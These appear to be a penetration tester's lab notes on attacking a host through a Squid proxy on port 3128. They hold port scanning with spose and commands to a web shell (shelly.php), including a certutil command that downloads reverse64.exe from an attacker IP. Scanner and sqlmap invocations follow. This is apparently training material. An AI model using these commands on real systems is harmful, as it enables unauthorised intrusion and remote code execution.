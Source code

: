 #### Spose
```bash - kali
git clone https://github.com/aancw/spose.git && cd spose
```

```bash - kali
python3 spose.py --proxy http://$TARGET:3128 --target 127.0.0.1
```

![[Pasted image 20220610140446.png]]

#### Foxy Proxy
![[Pasted image 20220610133805.png]]

Once foxy proxy is set up, we now try visiting one of the ports found by spose:

http://127.0.0.1:3306
http://127.0.0.1:8080

Visiting 8080, we see a link for /phpmyadmin

[[phpmyadmin]]

```bash - kali
curl --proxy $TARGET:3128 "http://127.0.0.1:8080/shelly.php?cmd=whoami" 
```

[[1._Reverse Shells (WIN)#Stageless Payloads]]

[[rlwrap]]

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

[[4._File Transfers]]

```bash - kali
curl --proxy $TARGET:3128  "http://127.0.0.1:8080/shelly.php?cmd=certutil%20-urlcache%20-split%20-f%20http%3A%2F%2F192.168.49.57%2Freverse64.exe"
```

#### Nikto
```bash - kali
nikto -h $TARGET -useproxy http://$TARGET:3128
```

#### dirsearch 
```bash - kali
dirsearch -u http://$TARGET --proxy=$TARGET:3128
```

#### sqlmap
```bash - kali
sqlmap -u http://$TARGET/sqli/Less-1/?id=1 --dbs --proxy http://$TARGET:3128
```

#### Wordpress wpscan
```bash - kali
wpscan -e ap,at,tt,cb,dbe,u,m --detection-mode aggressive --plugins-detection aggressive -t 30 --url http://$TARGET --proxy http://$TARGET
```
